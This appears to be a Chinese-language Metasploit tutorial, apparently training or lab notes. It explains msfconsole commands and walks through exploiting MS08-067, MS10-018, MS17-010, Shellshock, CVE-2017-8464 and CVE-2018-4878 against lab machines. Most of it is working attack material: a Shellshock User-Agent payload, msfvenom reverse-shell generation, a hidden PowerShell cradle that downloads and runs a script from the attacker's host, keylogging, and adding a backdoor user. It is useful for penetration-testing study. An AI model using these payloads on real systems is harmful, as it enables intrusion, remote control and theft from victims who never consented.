11 encoder/x86/context_stat manual No stat(2)-based Context Keyed Payload Encoder 12 encoder/x86/context_time manual No time(2)-based Context Keyed Payload Encoder 13 encoder/x86/countdown normal No Single-byte XOR Countdown Encoder 14 encoder/x86/fnstenv_mov normal No Variable-length Fnstenv/mov Dword XOR Encoder 15 encoder/x86/jmp_call_additive normal No Jump/Call XOR Additive Feedback Encoder 16 encoder/x86/nonalpha low No Non-Alpha Encoder 17 encoder/x86/nonupper low No Non-Upper Encoder 18 encoder/x86/opt_sub manual No Sub Encoder (optimised) 19 encoder/x86/service manual No Register Service 20 encoder/x86/shikata_ga_nai excellent No Polymorphic XOR Additive Feedback Encoder 21 encoder/x86/single_static_bit manual No Single Static Bit 22 encoder/x86/unicode_mixed manual No Alpha2 Alphanumeric Unicode Mixedcase Encoder 23 encoder/x86/unicode_upper manual No Alpha2 Alphanumeric Unicode Uppercase Encoder 24 encoder/x86/xor_dynamic normal No Dynamic key XOR Encoder 25 encoder/x86/xor_poly normal No XOR POLY Encoder
unset
与set命令相反的是unset取消设置，将删除以前使用设置所配置的参数。可以使用unset all删除所有分配的变量。
msf6 > set RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf6 > set THREADS 50
THREADS => 50
msf6 > set
Global
======
Name Value
---- -----
RHOSTS 192.168.1.0/24
THREADS 50
msf6 > unset THREADS
Unsetting THREADS...
msf6 > unset all
Unsetting datastore...
msf6 > set
Global
======
No entries in data store.
msf6 >
setg
为了节省渗透期间的大量输入，可以在msfconsole中设置 全局变量 。
可以使用setg命令执行此操作。一旦这些设置完成，可以在任意多的漏洞利用和辅助模块中使用它们，还可以保存它们以供下次启动msfconsole时使用。
msf6 > setg LHOST 192.168.1.101 LHOST => 192.168.1.101 msf6 > setg RHOSTS 192.168.1.0/24 RHOSTS => 192.168.1.0/24 msf6 > setg RHOST 192.168.1.136 RHOST => 192.168.1.136
设置不同的变量后，可以运行save命令保存当前环境和设置。保存设置后，它们将在启动时自动加载，从而无需再次设置所有内容。
msf6 > save Saved configuration to: /home/jasper/.msf4/config
show
在 msfconsole 提示符下输入 show 命令将显示Metasploit中的每个模块，比如常用的命令是show auxiliary、show exploits、show payloads、show encoders。
auxiliary
Metasploit的辅助模块，主要用于信息搜集阶段，功能包括扫描、口令猜解、敏感信息嗅探、FUZZ测试发掘漏洞、实施网络协议欺骗等。
msf6 > show auxiliary Auxiliary ========= # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 0 auxiliary/admin/2wire/xslt_password_reset 2007-08-15 normal No 2Wire Cross-Site Request Forgery Password Reset Vulnerability 1 auxiliary/admin/android/google_play_store_uxss_xframe_rce normal No Android Browser RCE Through Google Play Store XFO ... ...
exploits
show exploits是我们最感兴趣的模块，因为Metasploit的核心是利用漏洞。运行show exploits以获取 MSF 框架中包含的所有漏洞的列表。
msf > show exploits
payloads
运行show payloads将显示Metasploit中所有可用平台的所有不同有效载荷。
msf > show payloads
当处于某个特定漏洞利用模块下时，运行show payloads将只显示与该特定漏洞利用模块兼容的有效负载。例如，如果它是一个Windows漏洞，将不会看到Linux有效负载。
msf6 > use exploit/windows/smb/ms08_067_netapi [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp msf6 exploit(windows/smb/ms08_067_netapi) > show payloads
options
如果选择了特定模块，则可以发出show options命令，显示该特定模块下必要&可选的设置项。
msf6 > use exploit/windows/smb/ms08_067_netapi
msf6 exploit(windows/smb/ms08_067_netapi) > show options
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metasplo
it/basics/using-metasploit.html
RPORT 445 yes The SMB service port (TCP)
参数名 当前设置 是否必须 描述
targets
如果不确定操作系统是否易受特定攻击，在攻击模块的上下文中运行show targets命令，查看支持哪些目标。
msf6 exploit(windows/smb/ms08_067_netapi) > show targets
Exploit targets:
=================
Id Name
-- ----
=> 0 Automatic Targeting
1 Windows 2000 Universal
2 Windows XP SP0/SP1 Universal
3 Windows 2003 SP0 Universal
4 Windows XP SP2 English (AlwaysOn N
advanced
如果希望进一步微调漏洞，可以通过运行show advanced查看更多高级选项。
用的不多
设置一些扫描速度、带宽
msf exploit(ms08_067_netapi) > show advanced
encoders
运行show encoders将显示MSF中可用的编码器列表。
解决乱码问题、对攻击流量做加密
msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders Compatible Encoders =================== # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 0 encoder/generic/eicar manual No The EICAR Encoder 1 encoder/generic/none normal No The "none" Encoder 2 encoder/x64/xor normal No XOR Encoder 3 encoder/x64/xor_dynamic normal No Dynamic key XOR Encoder 4 encoder/x64/zutto_dekiru manual No Zutto Dekiru
use
当决定使用某个特定模块时，使用use命令来选择它。use命令将上下文更改为特定模块。
或者在 search 查找漏洞模块后，使用 use 编号使用这个模块
msf > use dos/windows/smb/ms09_001_write msf auxiliary(ms09_001_write) > show options
meterpreter 内命令
攻击成功后的命令操作
# 攻击成功后进行 meterpreter 执行攻击命令 meterpreter > help 帮助 getuid 用户 screenshot 截屏 getpid 进程号 pwd 路径 sysinfo 系统信息 录屏 关机 backgroud 将会话放入后台 sessions 查看会话 sessions -i [Id] 进入会话 run post/windows/gather/enum_patches 查看补丁信息 run post/multi/recon/local_exploit_suggester 查询哪些提权exp可以用，比较慢，失败了就再来一次 shell 进入目标终端
MSF 漏洞利用
内容安全：
- MS08-067 漏洞攻防还原
- MS10-018 漏洞攻防还原
- MS17-010 漏洞与勒索病毒的深度解析
- MS17-010 漏洞攻防还原
- MSF 之 samba 服务漏洞攻防还原
- Bash Shellshock CVE-2014-6271(破壳)与 PHP CGI 漏洞还原
- MSF 之 CVE-2017-8464 震网三代、CVE-2018-4878 漏洞攻防还原与辅助模块
- MSF 之后续权限提升
渗透测试：web漏洞，在前端
范围：web标准(html、JS)，数量级是100左右
主机层：主机漏洞，在后端
取决于部署了什么操作系统(windows、linux、mac、unix)，中间件、数据库、网络协议、应用程序，主机漏洞数量级是几十万，覆盖面非常广
MS08-067漏洞
MS08-067漏洞会影响Windows 2000/XP/Server 2003/Vista/Server 2008的各个版本，甚至还包括测试阶段的Windows 7 Pro-Beta。
如果用户在受影响的系统上收到特制的 RPC 请求，则可能导致攻击者在未经身份验证的情况下利用此漏洞运行任意代码，实现远程代码执行。现阶段，已经可以通过防火墙来阻断该漏洞的攻击。
漏洞利用
受攻击方：关闭主机防火墙。找到控制面板设置防火墙
攻击方：
# 输入msfconsole进入msf终端 msfconsole # 查找ms08-067漏洞利用模块 search ms08-067 msf6 > search ms08-067 Matching Modules ================ # Name Disclosure Date Rank Check Description - ---- --------------- ---- ----- ----------- 0 exploit/windows/smb/ms08_067_netapi 2008-10-28 great Yes MS08-067 Microsoft Server Service Relative Path Stack Corruption # 使用查找出来的攻击模块 use exploit/windows/smb/ms08_067_netapi 或者use 0 # 查看该攻击模块下所需的配置信息 show options 或者 options msf6 exploit(windows/smb/ms08_067_netapi) > options Module options (exploit/windows/smb/ms08_067_netapi): Name Current Setting Required Description ---- --------------- -------- ----------- RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit /basics/using-metasploit.html RPORT 445 yes The SMB service port (TCP) SMBPIPE BROWSER yes The pipe name to use (BROWSER, SRVSVC) Payload options (windows/meterpreter/reverse_tcp): Name Current Setting Required Description ---- --------------- -------- ----------- EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none) LHOST 10.151.32.60 yes The listen address (an interface may be specified) LPORT 4444 yes The listen port Exploit target: Id Name -- ---- 0 Automatic Targeting 自动检测操作系统版本 # rhost 漏洞主机地址 # lhost 监控地址，即源原地址 # Payload options (windows/meterpreter/reverse_tcp): 默认的payload # reverse_x 反弹shell，由内向外建立连接通道 # bind_x 主动模块，主动打 # 设置靶机地址 set RHOSTS your_ip # 查看targets show targets # 选择攻击目标（这里我们攻击 ip 对应的xp系统） set tartget 34 # 再次检查配置信息 show options # 查看有哪些 pyload 可利用 show payloads # 设置攻击payload set payload windows/meterpreter/bind_tcp # 执行exploit攻击 exploit # 攻击成功后进行 meterpreter 执行攻击命令 meterpreter > getuid 用户 screenshot 截屏 getpid 进程号 pwd 路径 sysinfo 系统信息 录屏 关机 等

进入Windows Shell
shell

net user / 查看用户
net user xxx3 123 /add //添加用户 密码123
net user / 查看用户
netstat -ano // 进程信息
使用键盘记录
meterpreter 中
使用 ps 查看进程
ps
migrate 1392 \\使用ps找到合适的进程（如记事本进程）进行迁移，迁移到有管理员权限的进程
使用 keyscan_start 开启键盘记录；
meterpreter > keyscan_start Starting the keystroke sniffer ...
在XP系统中任意输入字符，使用 keyscan_dump 进行查看（ keyscan_stop 关闭键盘记录）
MS10-018漏洞
漏洞简介
MS10-018是IE浏览器上的漏洞，主要危害Internet Explorer 6~7，攻击者可以通过该漏洞获取受害主机的控制权。详细信息
漏洞利用
开启防火墙
msfconsole search ms10_018 use exploit/windows/browser/ms10_018_ie_behaviors options //查看配置 # srvhost 表示反弹地 set srvhost 192.168.0.110 //设置web服务ip，这里是Kali的地址 set uripath xxx //设置uri路径 options //查看配置 exploit //攻击
xp机器中浏览器访问对应的URL http://192.168.0.110:8080/xxx ；访问之后会闪退
msf会接收到session
查看session
sessions -l
使用session
sessions -i 3 // 3 为对应id，进入 meterpreter
由被攻击机器向攻击机器建立的通道，所以开启防火墙也没用。
思考：如何利用该漏洞？
MS17-010漏洞
漏洞简介
永恒之蓝漏洞（MS17-010），它的爆发源于 WannaCry 勒索病毒的诞生，该病毒是不法分子利用NSA（National Security Agency，美国国家安全局）泄露的漏洞 “EternalBlue”（永恒之蓝）进行改造而成。该漏洞可以通过TCP的139和445端口，攻击Windows系统的SMB服务，造成远程代码执行。
MS17-010漏洞主要是针对于Windows7及以前的操作系统。
漏洞利用
Win7系统中的MS17-010利用条件：
- 防火墙必须允许SMB流量出入
- 关闭 win7 防火墙
- 控制面板 –> 系统和安全 –> windows 防火墙 –> 打开或关闭 windows 防火墙
- 控制面板 –> 系统和安全 –> windows 防火墙 –> 打开或关闭 windows 防火墙
- 关闭 win7 防火墙
- 目标必须使用SMBv1协议 √
- win7 默认满足
- win7 默认满足
- 目标必须缺少MS17-010补丁 √
- win7 默认满足
- win7 默认满足
- 目标必须允许匿名
IPC $和管道名
- 打开 win7 开启主策略： Ctrl + r 运行 pgedit.msc
- Windows 设置 –> 安全设置 –> 本地策略 –> 安全选项 –> 网络访问:限制对命名管道和共享的匿名访问 开启改为已禁用
- 重启机器
- 打开 win7 开启主策略： Ctrl + r 运行 pgedit.msc
msfconsole //进入 msf
search ms17-010 //查找ms17-010漏洞利用模块
use exploit/windows/smb/ms17_010_psexec //使用攻击模块
set RHOSTS 192.168.0.102 //设置攻击IP
exploit //攻击
shell //进入Windows cmd
扩展内容
MS17-010的五个漏洞利用模块：
0 exploit/windows/smb/ms17_010_eternalblue 1 exploit/windows/smb/ms17_010_psexec 2 auxiliary/admin/smb/ms17_010_command 3 auxiliary/scanner/smb/smb_ms17_010（扫描目标系统有没有漏洞，不进行利用获取） 4 exploit/windows/smb/smb_doublepulsar_rce（SMB后门，不用关注）
攻击效果：
0 模块：拿到了 meterpreter 命令行权限
1 模块：拿到了 meterpreter 命令行权限
2 模块：不能拿到了 meterpreter 命令行权限，需要在攻击之前设置好想要执行的命令
3 模块：仅作扫描，不会进行漏洞利用
利用条件：0模块不需要开启共享就能直接打，1、2则需要开启共享之后才能攻击成功。
返回结果：0、1都能反弹shell进行命令控制，2只能返回命令执行的结果。
总结下来，各个模块的攻击利用条件如下：
| 漏洞模块 | 防火墙必须允许SMB流量出入 | 目标必须使用SMBv1协议 | 目标必须缺少MS17-010补丁 | 目标必须允许匿名IPC $和管道名 | |
| 0 | exploit/windows/smb/ms17_010_eternalblue | √ | √ | √ | |
| 1 | exploit/windows/smb/ms17_010_psexec | √ | √ | √ | √ |
| 2 | auxiliary/admin/smb/ms17_010_command | √ | √ | √ | √ |
| 3 | auxiliary/scanner/smb/smb_ms17_010 | √ | √ | √ |
MS17-010漏洞修复
- 治本
- 升级操作系统。很难用到，怕影响业务
- 更新(打补丁)。怕影响业务，做好备份恢复
- 搜索ms17010补丁号
- 官方补丁下载页：https://www.catalog.update.microsoft.com/Home.aspx
- 搜索ms17010补丁号
- 升级操作系统。很难用到，怕影响业务
- 治标不治本
- 关端口。取决于业务是否用这个端口
- 外围防护-部署安全软件
- 白名单
- 通过 win7 自带防火墙配置
- 通过 win7 自带防火墙配置
- 关端口。取决于业务是否用这个端口
Bash Shellshock CVE-2014-6271（破壳）
漏洞简介
Shellshock的原理是利用了Bash在导入环境变量函数时所触发的漏洞，启动Bash的时候，它不但会导入函数，而且也会把函数后面的命令一并执行。在有些CGI脚本的设计中，数据是通过环境变量来传递的，这就给了数据提供者利用Shellshock漏洞的机会。
简单来说就是由于服务器的CGI脚本调用了bash命令，由于bash版本过低，攻击者把有害数据写入环境变量，传到服务器端，触发服务器运行Bash脚本，完成攻击。
漏洞原理
该 Bash 使用的环境变量通过函数名称来调用，导致漏洞的问题点是以 (){ 开头定义的环境变量在命令ENV 中解析成函数后， Bash 执行并未退出，而是继续解析并执行shell命令。
漏洞利用
环境搭建
docker下直接search该漏洞镜像
docker search CVE-2014-6271 docker run -d -p 8080:80 vulnerables/cve-2014-6271 docker ps //查看容器是否启动
看到容器启动成功之后，访问 your_ip:8080 看到环境服务启动

漏洞攻击
使用Hackbar发送http请求，将payload附在User-Agent中执行，随后访问/cgi-bin/vulnerable：
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id

漏洞解析
1）设置环境变量，以 `() {` 开头； 2）启动子shell； 3）子shell会继承父进程的环境变量，并且当环境变量是以 `() {` 开头的，会当函数执行。
使用msf进行利用
使用 msfconsole 进入 msf 终端
search shellshock \\查找 shellshock 漏洞利用模块 use exploit/multi/http/apache_mod_cgi_bash_env_exec \\使用漏洞利用模块 options 查看设置参数 set payload linux/x86/meterpreter/reverse_tcp // 设置漏洞利用payload，对应操作系统版本 set RHOSTS your_ip // 设置远程服务地址 set rport 80 // 设置远程服务端口 set TARGETURI /victim.cgi // 设置目标URI 或者 /cgi-bin/vulnerable set target 1 // 设置为对应被攻击机器系统 check // 查看是否存在漏洞 exploit // 攻击

不一定都成功，主机漏洞不稳定性，多尝试，所有 payload 都尝试一下。
远程命令执行漏洞 CVE-2017-8464（震网三代）
漏洞描述
2017年6月13日，微软官方发布编号为CVE-2017-8464的漏洞公告，官方介绍Windows系统在解析快捷方式时存在远程执行任意代码的高危漏洞，黑客可以通过U盘、网络共享等途径触发漏洞，完全控制用户系统，安全风险高危。
Windows系统使用二进制解析.LNK文件，当恶意二进制代码被系统识别执行时即可实现远程代码执行，由于是在explorer.exe进程中运行，所以 load 进内存时与当前用户具有相同权限。
攻击者利用这一解析过程将包含恶意二进制的代码被附带进可移动驱动器（或远程共享过程中），受害者使用powershell解析 .LNK 文件后即被黑客所控制。
成功利用此漏洞的攻击者可能会获得与本地用户相同的用户权限。
影响版本
cpe:2.3⭕️microsoft:windows_10:-:*:*:*:*:*:*:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows_10:1511:*:*:*:*:*:*:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows_10:1607:*:*:*:*:*:*:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows_10:1703:*:*:*:*:*:*:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows_7:-:sp1:*:*:*:*:*:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows_8.1:-:*:*:*:*:*:*:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows_rt_8.1:-:*:*:*:*:*:*:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows_server_2008:-:sp2:*:*:*:*:*:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows_server_2008:r2:sp1:*:*:*:*:itanium:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows server 2008:r2:sp1:*:*:*:*:x64:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows_10:-:*:*:*:*:*:*:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows_server_2012:-:*:*:*:*:*:*:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows_server_2012:r2:*:*:*:*:*:*:* Show Matching CPE(s)
cpe:2.3⭕️microsoft:windows_server_2016:-:*:*:*:*:*:*:* Show Matching CPE(s)
漏洞利用
1.在kali下使用 msfvenom 生成一个反弹shell
msfvenom 是 msfpayload 和 msfencoder 的组合
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.0.111 lport=4444 -f psh-reflection > ~/xxx.ps1 # lhost 为 kali 地址
2.将生成的xxx.ps1拷贝到/var/www/html目录下
cp ~/xxx.ps1 /var/www/html/
3.在kali中启动Apache服务
service apache2 start //默认80端口
4.在win7系统中查看服务是否启动

5.访问web下的xxx.ps1
6.在靶机上创建一个快捷方式，并输入：
输入对象的位置处填写
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.111/xxx.ps1');test.ps1"
7.kali下创建监听反弹shell
msfconsole use exploit/multi/handler //侦听模块 set payload windows/x64/meterpreter/reverse_tcp # payload 和 制作木马时一致 set LHOST 192.168.0.111 show options
8.kali上使用 exploit 开启监听
exploit
9.windows上运行创建的powershell快捷方式
快捷方式中的test.ps1，让powershell去执行test.ps1，但是test.ps1并不存在，所以没有实际意义。
10.kali上接收到反弹shell

Flash漏洞 CVE-2018-4878
漏洞简介
2018年2月1号，Adobe官方发布安全通报（APSA18-01），声明Adobe Flash 28.0.0.137及其之前的版本，存在高危漏洞（CVE-2018-4878）。
攻击者通过构造特殊的Flash链接，当用户用浏览器/邮件/Office访问此Flash链接时，会被“远程代码执行”，并且直接被getshell。
影响版本

漏洞利用
漏洞环境
- Kali Linux + Windows 7 sp1
- 攻击机：Kali Linux
- 靶机：Windows 7 sp1
exp漏洞利用脚本：cve-2018-4878.py
wget https://raw.githubusercontent.com/backlion/demo/master/CVE-2018-4878.rar
- flash安装程序：flashplayer_activex_28.0.0.137.exe
攻击流程
1.在kali中使用 msfvenom 生成漏洞利用代码
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.111 lport=4445 -f python>xxx_shellcode.txt
2.查看生成的文件
cat ~/xxx_shellcode.txt # shellcode 编码特征：\x2位16进制文件
3.修改 CVE-2018-4878-master 文件夹中的 cve-2018-4878.py 文件
stageless = False
把shellcode内容换成刚生成的
4.修改cve-2018-4878.py文件中的文件生成路径为自己的路径
f = open("/root/Desktop/CVE-2018-4878-master/%s" % swf, "wb") f.write(data) f.close() f = open("/root/Desktop/CVE-2018-4878-master/index2.html", "wb") f.write(html) f.close()
5.运行python脚本，生成2个程序exploit.swf index2.html，注意使用 python2 版本
python2 cve-2018-4878.py
6.开启Apache服务，并将生成的两个文件拷贝到apache服务目录下
service apache2 start sudo cp /home/xxx/Desktop/* /var/www/html //（即exploit.swf和index2.html）
7.在kali上开启监听
msfconsole use exploit/multi/handler set payload windows/meterpreter/reverse_tcp # 注意地址和端口要和使用msfvenom命令生成shellcode时所用到的地址和端口保持一致 set lhost 192.168.0.111 set lport 4445 exploit # 开启监听
8.Win7系统安装flash插件
9.使用IE浏览器访问kali中我们生成好的 index2.html 页面
http://192.168.0.111/index2.html
10.kaili中获得win7机器权限
exploit
MSF攻击流程总结

- 输入 msfconsole进入终端
- search 命令查找对应漏洞利用模块
- use 命令使用查找出来的漏洞利用模块
- set 命令设置攻击参数
- exploit/run 命令启动攻击
- Getshell